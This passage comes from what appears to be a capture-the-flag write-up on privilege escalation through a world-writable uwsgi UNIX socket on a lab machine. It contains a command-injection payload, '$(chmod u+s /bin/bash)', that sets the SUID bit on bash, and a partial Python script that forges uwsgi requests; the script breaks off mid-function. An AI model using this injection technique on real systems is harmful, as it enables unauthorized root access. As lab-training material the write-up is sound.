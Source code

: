 In a nutshell, when the XSS filter is triggered, the application uses the `REMOTE_ADDR` parameter to send it through the dbus interface to the upstream iptables command. We can't spoof or modify this `REMOTE_ADDR` variable remotely so we'll have to exploit this another way.

The `uwsgi.ini` file shows that a UNIX socket is used to communicate between the webserver and the flask application:

```
[uwsgi]
module = oouch:app
uid = www-data
gid = www-data
master = true
processes = 10
socket = /tmp/uwsgi.socket
chmod-sock = 777
vacuum = true
die-on-term = true
```

The permissions on the socket allow us to read and write to the socket:

```
qtc@aeb4525789d8:/code$ ls -l /tmp
total 0
srw-rw-rw- 1 www-data www-data 0 Mar  2 15:21 uwsgi.socket
```

We can write using the uwsgi protocol directly to the socket and manipulate the values. The code below is an ugly hack put together from some examples found online. The payload I used here sets the SUID bit on `/bin/bash`: `$(chmod u+s /bin/bash)`

```python
import sys
import argparse
import socket
import struct
from binascii import hexlify

assert sys.version_info[0] == 3, 'Use Python 3.'


def force_bytes(value):
    if isinstance(value, bytes):
        return value
    return str(value).encode('utf-8')


def encode_uwsgi_vars(values):
    """
    Encode a list of key-value pairs into an uWSGI request header structure.
    """
    # See http://uwsgi-docs.readthedocs.io/en/latest/Protocol.html#the-uwsgi-vars
    buffer = []
    for key, value in values:
        key_enc = force_bytes(key)
        val_enc = force_bytes(value)
        buffer.append(struct.pack('<H', len(key_enc)))
        buffer.append(key_enc)
        buffer.append(struct.pack('<H', len(val_enc)))
        buffer.append(val_enc)
    return b''.join(buffer)


def send_uwsgi_request(socket, header_content):
    data = encode_uwsgi_vars(header_content)
    header = struct.pack(
```